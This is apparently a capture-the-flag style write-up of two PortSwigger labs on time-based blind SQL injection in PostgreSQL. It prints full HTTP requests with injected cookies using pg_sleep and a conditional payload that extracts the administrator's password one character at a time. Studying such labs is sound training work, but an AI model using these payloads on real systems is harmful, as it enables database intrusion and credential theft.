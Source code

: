 # Solved


# ***2. Blind SQL injection with time delays***
https://portswigger.net/web-security/sql-injection/blind/lab-time-delays

 The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

> To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay. 

1. use basic format to determine how many coloumns are in the current table with various time delay triggers: 
**request5:**
>GET /filter?category=Pets HTTP/1.1
>Cookie: TrackingId=UZ2bVerI2nvWNdf5'+UNION+SELECT+NULL+FROM+information_schema.tables%3bSELECT+pg_sleep(10)--; session=J4XYX9LvR5r8TI4Vl7gzz8ehGsEmQoLr

we know that **SELECT pg_sleep(10)** is used by PostgreSQL and thay we have 1 field of returnd value.

# lab solved


# ***3.lab: Blind SQL injection with time delays and information retrieval***
https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

telltale: **time dealy**

1. use payload from previous lab to confirm time delay:
**request5:**
>GET /filter?category=Pets HTTP/1.1
>Cookie: TrackingId=UZ2bVerI2nvWNdf5'+UNION+SELECT+NULL+FROM+information_schema.tables%3bSELECT+pg_sleep(10)--; session=J4XYX9LvR5r8TI4Vl7gzz8ehGsEmQoLr
response: **time delay**



'||(SELECT CASE WHEN (SUBSTR(password,§{pass_index}§,1)='§{char}§') THEN pg_sleep(1) ELSE '' END FROM users WHERE username='administrator')||'

See code in folder:
/SQLi - SQL Injection/Lab_ Blind SQL injection with time delays.py

